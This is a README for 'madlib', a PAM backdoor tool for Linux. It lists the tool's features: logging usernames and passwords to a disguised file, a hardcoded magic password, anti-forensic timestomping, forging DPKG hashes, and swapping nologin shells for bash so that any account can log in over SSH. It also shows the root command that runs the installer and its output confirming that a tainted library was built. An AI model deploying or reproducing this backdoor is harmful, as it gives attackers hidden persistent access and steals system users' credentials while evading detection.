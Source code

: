# madlib
PAM Backdoor, 
* Logs username/passwords to file
* Obfuscates backdoor password with bcrypt (helps make reverse engineering more difficult and string dumps less effective)
* Automatically updates the MD5 hashes, in DPKG
* Time stomps all replaced files
* Requires Python3
* Replaces /bin/false, and /bin/nologin with /bin/bash (effectively making any user able to ssh in)
* Username/passwords by default are logged to /usr/include/type.h
* The default magic password is secretpassxd


## Usage

Manually Specifying PAM Version:

```
root@homebase /h/r/madlib# ./pam.py "1.3.0"
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:15:55] [+] PAM TAR Download Completed
[00:15:56] [+] Finishing Extracting
[00:15:56] [+] Added Backdoor
[00:16:16] [+] Finished Compiling Tainted Lib
[00:16:16] [+] Finished Successfully
```

Automatic Version Detection:

```
root@homebase /h/r/madlib# ./pam.py
                    .___.__  ._____.
  _____ _____     __| _/|  | |__\_ |__
 /     \\__  \   / __ | |  | |  || __ \
|  Y Y  \/ __ \_/ /_/ | |  |_|  || \_\ \
|__|_|  (____  /\____ | |____/__||___  /
      \/     \/      \/              \/
    https://github.com/rek7/madlib/
[00:17:55] [!] Detected PAM Version: '1.3.0'
[00:17:55] [+] PAM TAR Download Completed
[00:17:56] [+] Finishing Extracting
[00:17:56] [+] Added Backdoor
[00:18:16] [+] Finished Compiling Tainted Lib
[00:18:16] [+] Finished Successfully
```
